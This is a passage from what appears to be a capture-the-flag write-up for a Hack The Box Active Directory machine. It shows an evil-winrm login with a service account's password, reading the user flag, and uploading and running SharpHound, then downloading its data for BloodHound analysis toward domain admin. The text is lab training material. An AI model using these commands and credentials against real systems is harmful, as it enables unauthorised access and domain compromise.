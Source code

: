 ```
$ evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type C:\Users\svc-alfresco\Desktop\user.txt
0c2697dca35c...
```


## shell as administrator

given that this is an active directory machine I will make use of bloodhound to find a way to become administrator

I will copy the built-in sharphound.exe from bloodhound to the directory where I started the evil-winrm session

```
$ cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe .
```

I start the neo4j console to make bloodhound functional

```
$ sudo neo4j console
```

then I launch bloodhound and connect to neo4j using my credentials (the default neo4j credentials are neo4j:neo4j). 

on the evil-winrm session I upload SharpHound.exe to the machine

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> upload SharpHound.exe                                     
Info: Uploading /home/linux/Desktop/forest/content/SharpHound.exe to C:\Users\svc-alfresco\Desktop\bh\SharpHound.exe
```

using sharphound I start the collection method for "All"

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> .\SharpHound.exe -c All
```

after it finishes collecting the data I download the zipped file to my machine 

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> download 20240915111107_BloodHound.zip /home/linux/Desktop/forest/content/data.zip
```

and I upload the data to bloodhound 

![](assets/img/htb/forest/upload_data.png)

I select the option of "shortest paths to high value targets" for the domain HTB.LOCAL

![](assets/img/htb/forest/options.png)


### finding paths to domain admin
here I find a graphic representation of a path to become a domain admin from  the user svc-alfresco 
